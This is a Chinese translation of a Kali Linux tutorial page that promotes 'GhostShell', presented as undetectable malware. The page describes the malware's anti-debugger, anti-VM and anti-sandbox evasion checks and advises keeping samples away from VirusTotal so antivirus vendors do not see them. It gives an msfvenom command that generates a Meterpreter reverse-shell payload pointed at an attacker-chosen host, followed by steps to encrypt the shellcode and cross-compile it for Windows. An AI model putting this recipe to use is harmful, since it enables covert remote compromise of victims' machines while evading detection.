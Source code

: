 # GhostShell:防病毒旁路技术和反反汇编无法检测的恶意软件

> 原文：<https://kalilinuxtutorials.com/ghostshell/>

[![GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly](img/9c3f4f9670ac462a46ba27998fe29c38.png "GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly")](https://1.bp.blogspot.com/-a1M9C3YA6nc/XuBVDU9-svI/AAAAAAAAGkU/f-YKp17e68gl8q0552VEpeAZvNHPTaWhwCLcBGAsYHQ/s1600/generating%2Bshellcode.gif)

**GhostShell** 是一款不可检测的恶意软件，具有 AV 旁路技术、反反汇编等。在这种恶意软件中，使用了一些技术来尝试绕过 AVs、虚拟机和沙箱，只是希望了解更多。我不对你的行为负责。

**注意！！！**

要检查防病毒软件是否检测到恶意软件，请不要将其发送给 virustotal，它将被发送给防病毒公司并被破解，要进行分析，请将其发送给[https://www.hybrid-analysis.com/](https://www.hybrid-analysis.com/)，并记住选中“不要将我的样本发送给非附属第三方”选项，如下例所示。

**又读——[法拉第:协同渗透测试&漏洞管理平台](https://kalilinuxtutorials.com/faraday/)**

**旁路技术**

*   **反调试器**:为了尝试绕过调试器，我使用“Windows.h”函数库的“IsDebuggerPresent()”来检查调试器是否正在运行。
*   **反虚拟机/反沙盒/反反病毒**
    *   **枚举进程函数**枚举系统上运行的所有进程，并与黑名单中的进程进行比较，如果发现一个进程，且该进程等于黑名单中的任何进程，则返回-1(已识别)。
    *   **睡眠加速检查功能**先获取当前时间，睡眠 2 分钟，然后，再次获取时间，比较，如果差值小于 2，返回-1(已识别)。
    *   **mac 地址检查功能**获取系统 mac 地址，并与黑名单中的 mac 进行比较，如果系统 Mac 地址等于黑名单中的任何 Mac，则返回-1(已识别)。

**生成外壳代码**

![GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly](img/9c3f4f9670ac462a46ba27998fe29c38.png "GhostShell : Malware Indetectable With AV Bypass Techniques & Anti-Disassembly")

要在终端中生成 shellcode 类型:`**msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c**`，复制生成的 shellcode 并加密。

*   若要加密外壳代码，请使用 encrypt_shellcode 脚本。
    *   在 linux 上类型:`**./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)""**`
    *   在 windows 上键入:`**encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(YOUR_SHELLCODE)""**`

**如何在 Linux 上为 Windows 编译？**

要在 Linux 上编译 Windows，首先安装 mingw-w64: `**sudo apt-get install mingw-w64**`，然后编译 32 位:`**i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static**`，64 位:`**x86_64-w64-mingw32 -o main.exe main.c -l psapi -static**`

[**Download**](https://github.com/ReddyyZ/GhostShell)